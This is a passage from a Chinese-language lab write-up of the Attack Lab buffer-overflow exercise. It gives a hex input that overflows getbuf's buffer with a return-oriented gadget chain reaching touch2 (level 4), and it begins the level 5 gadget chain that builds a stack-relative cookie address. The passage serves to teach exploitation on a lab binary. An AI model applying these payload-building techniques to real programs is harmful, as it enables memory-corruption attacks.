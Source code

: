 所以可以用这两条指令来完成攻击。上面是函数栈帧图，所以可以构建输入的16进制文件。

```
ans4.txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00			//把getbuf的缓冲区填满
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00			// popq指令的地址
fa 97 b9 59 00 00 00 00			// cookie
c5 19 40 00 00 00 00 00			// movq指令的地址
ec 17 40 00 00 00 00 00			// touch2的地址

```

![image-20221023091647534](http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221023091647534.png)

##### level5

level5的要求是和level3相同，跳转到touch3执行，且第一个参数为cookie的地址。需要完成这个攻击，需要从start_farm和end_farm中寻找对应的工具。

**一些建议**

* 你需要复习一下movl指令关于寄存器中高四个字节的处理。
* 这个官方的解答要求八个工具来完成，但并不是唯一的。

**解决步骤**：

1. 同样的依照level3来完成汇编指令的编写，再去寻找对应的工具来完成。这里的一个点需要注意的就是cookie的地址，由于栈随机化的原因，所以不能用绝对地址，需要用相对地址来完成，设置一个偏移量来完成查找,既然需要偏移量，那就需要add指令，然后去地址。或者直接一个leaq指令，在start_farm至end_farm中寻找，没有找到add指令，但是找到了一个lea指令，所以可以围绕着lea指令来做。

    ```assembly
    popq %rsi						# rsi也就是偏移量
    movq %rsp, %rdi					# rdi设置为rsp
    lea (%rdi, %rsi, 1), %rax		# 获取到cookie字符串的地址
    movq %rax, %rdi					# 作为第一个参数
    ```

    依次执行上面这些指令就可以完成了，但是有些指令编码在start_farm和end_farm中找不到。所以也要曲线救国。

    ```assembly
    popq %rax
    movl %eax, %edx				# popq %rsi
    movl %edx, %ecx
    movl %ecx, %esi
    
    movq %rsp, %rax				# movq %rsp, %di
    movq %rax, %rdi
    
    lea (%rdi, %rsi, 1), %rax	
    movq %rax, %rdi
    ```

    上面的这些指令都可以在start_farm和end_farm中找到。
